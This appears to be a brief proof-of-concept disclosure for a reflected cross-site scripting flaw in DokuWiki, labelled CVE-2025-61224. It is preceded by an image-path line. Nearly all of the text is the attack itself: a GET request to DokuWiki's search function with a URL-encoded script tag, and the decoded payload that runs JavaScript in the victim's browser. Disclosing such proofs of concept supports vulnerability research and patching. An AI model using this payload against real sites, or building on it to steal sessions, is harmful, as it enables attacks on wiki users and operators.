 # DokuWiki
# CVE-2025-61224
poc: GET https://<host>/dokuwiki/doku.php?id=start&do=search&q=1%20%40%3Cscript%3Eprompt%60xss%60%3C%2fscript%3E
Payload: ```1 @<script>prompt`xss`</script>```

